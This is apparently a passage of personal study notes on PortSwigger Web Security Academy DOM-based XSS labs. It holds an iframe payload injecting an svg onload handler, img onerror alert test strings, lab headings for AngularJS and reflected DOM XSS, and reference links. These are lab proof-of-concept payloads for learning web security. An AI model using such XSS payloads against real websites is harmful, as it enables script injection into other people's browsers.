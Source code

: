 ```jsx
<iframe src="https://[ID].web-security-academy.net#" onload="this.src+='<svg onload=print()>'">
//testing [ /?<img%20src%20onerror=alert(1)>location.search=<img%20src%20onerror=alert(1)># ]
```

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2016.png)

## LAB 07: ****DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded*****

Appendix:

[https://www.w3schools.com/angular/ng_ng-app.asp](https://www.w3schools.com/angular/ng_ng-app.asp)

[https://www.geeksforgeeks.org/angularjs-ng-app-directive/](https://www.geeksforgeeks.org/angularjs-ng-app-directive/)

## LAB 08: ****Reflected DOM XSS****

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2017.png)
